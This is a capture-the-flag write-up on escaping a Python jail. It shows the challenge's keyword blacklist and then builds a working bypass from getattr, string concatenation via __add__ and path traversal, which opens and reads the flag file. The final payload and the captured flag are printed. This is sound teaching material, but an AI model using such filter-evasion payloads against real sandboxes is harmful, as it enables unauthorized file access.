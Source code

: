 # "as" "df"

![chall](./Images/asdf.PNG)

In this challenge, we are given access to a server running a python interface.

```
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: 
```

In order to begin crafting an exploit, we should first figure out what properties and methods we have access to. We can do that with the `dir()` command.

Running `print(dir())` returns:

```python
Enter command: print(dir())
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'sys', 'user_input']
```

We can see the property `blacklist`. It would be helpful to figure out what exactly is blacklisted.

```python
Enter command: print(blacklist)
('eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', ';', '+', 'ord', 'chr', 'base', 'flag', 'replace', ' ', 'decode', 'join')
```

Those important methods `open()` and `read()` are blacklisted. We can use pass the objects we have access to, to `dir` to look for tools to bypass these restrictions. When we look in `__builtins__` we can see we have access to `getattr()`. `getattr()` can be used with two arguments to access an attribute of a object. For example: `getattr(__builtins__,"open")`. This is the first step to regaining access to those two important methods. Still, we can't send the word `open` or use `+` to obfuscate it. Luckily if we look in `__file__`, we can see the `__add__` command is available.

```python
Enter command: print(dir(__file__))
['__add__', '__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'capitalize', 'casefold', 'center', 'count', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'format_map', 'index', 'isalnum', 'isalpha', 'isascii', 'isdecimal', 'isdigit', 'isidentifier', 'islower', 'isnumeric', 'isprintable', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'maketrans', 'partition', 'removeprefix', 'removesuffix', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```

Now, we have all we need for the exploit.
First, we call `open()`. We can use `getattr()` to access `open()` from `__builtins__` like this: `getattr(__builtins__,"op".__add__("en")`.

This will return the function, so we need to pass it the parameters _path_ and _mode_. We don't know where the current working directory is relative to the root so we can just add a lot of `../`'s to keep moving towards the root. We don't have to worry about having too many since you can't move up from the root. 

Our exploit so far is: 

```python
getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r')
```

Next, open will return a file handle so we need to call the read function. We can use `getattr()` again, passing the file handle as the first parameter and `read()` as the second. Our exploit now looks like this:

```python
getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))()
```

Finally wrap it in a `print()` and we are set!

#### Final exploit:

```python
Enter command: print(getattr(getattr(__builtins__,"op".__add__("en"))("../../../../../../../fl".__add__("ag"),'r'),"re".__add__("ad"))())
SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}
```